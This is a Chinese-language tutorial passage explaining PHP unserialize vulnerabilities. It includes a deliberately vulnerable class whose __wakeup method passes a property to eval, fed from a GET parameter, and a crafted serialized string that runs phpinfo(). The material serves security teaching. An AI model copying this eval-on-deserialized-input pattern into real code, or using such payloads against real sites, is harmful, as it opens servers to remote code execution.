 ## 漏洞原理实例：

**在反序列化时，参数用户可控，魔术方法中存在危害函数，就会产生反序列化漏洞，下面给出一个最简单的实例**

```php
<?php   

class test{

    var $id = 'Baize';
	
	function __wakeup(){
		eval($this->id);
	}

}

$test1 = $_GET['string'];

$test2 = unserialize($test1);

?>
```

**审计代码，总结如下**

1.可控参数是GET型string参数

2.后端接收参数后进行反序列化操作

3.test类中存在__wakeup魔术方法，操作是eval($id)

那么我们思路是：构造test类的序列化字符串，使得反序列化后得$id值为要执行的操作，例如我们要执行phpinfo()，那么可以构造这样一个字符串

```
O:4:"test":1:{s:2:"id";s:10:"phpinfo();"}
```

在反序列化后会重新创建该对象test，并且id参数会恢复为我们提交的序列化参数中设定的值，即phpinfo(); ，那么我们可以推理出反序列化之后的test对象大致如下

```php
<?php   

class test{

    var $id = 'phpinfo();';
	
	function __wakeup(){
		eval($this->id);
	}

}

?>
```

